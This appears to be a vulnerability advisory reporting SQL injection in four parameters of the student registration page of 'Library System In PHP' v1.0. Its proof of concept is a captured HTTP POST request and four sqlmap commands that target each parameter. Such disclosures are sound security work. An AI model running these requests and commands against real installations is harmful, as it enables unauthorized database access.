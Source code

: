 # Library System In PHP - SQL Injection (Student registration)

### Vendor Homepage:

> https://code-projects.org/

### Software Link:

> [Library System In PHP](https://code-projects.org/library-system-in-php-with-source-code/)

### Version:

> v 1.0

### SQL Injection:

> SQL injection is a type of security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. Usually, it involves the insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system, and in some cases, issue commands to the operating system.

### Affected Components:

> /Lms/Source/librarian/user/student/registration.php

> Four parameters `email`, `regno`, `phone` and `username` within student registration are vulnerable to SQL Injection.


![email](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/3.4Library-System-In-PHP-Sqli-student_registration_email.png)

![regno](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/3.4Library-System-In-PHP-Sqli-student_registration_regno.png)

![phone](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/3.4Library-System-In-PHP-Sqli-student_registration_phone.png)

![username](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/3.4Library-System-In-PHP-Sqli-student_registration_username.png)

### Description:

> The presence of SQL Injection in the application enables attackers to issue direct queries to the database through specially crafted requests.

## Proof of Concept:

### SQLMap

Save the following request to `studentregistration.txt`:

```
POST /Lms/Source/librarian/user/student/registration.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://172.16.8.56/Lms/Source/librarian/user/index.php
Cookie: PHPSESSID=4nq5is5jf875uo0a4v5nohv7s7
Content-Length: 199
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Host: 172.16.8.56
Connection: Keep-alive

address=555&dept=1&email=testing&name=TYYHyRvY&password=u]H[ww6KrA9F.x-F&phone=1&regno=1&sem=1&session=1&submit=Register&username=TYYHyRvY
```

Use `sqlmap` with `-r` option to exploit the vulnerability:

```
sqlmap -r studentregistration.txt --batch --dbms MYSQL --is-dba -p email
```
```
sqlmap -r studentregistration.txt --batch --dbms MYSQL --is-dba -p regno
```
```
sqlmap -r studentregistration.txt --batch --dbms MYSQL --is-dba -p phone
```
```
sqlmap -r studentregistration.txt --batch --dbms MYSQL --is-dba -p username
```


## Recommendations

When using this Library System In PHP, it is essential to update the application code to ensure user input sanitization and proper restrictions for special characters.

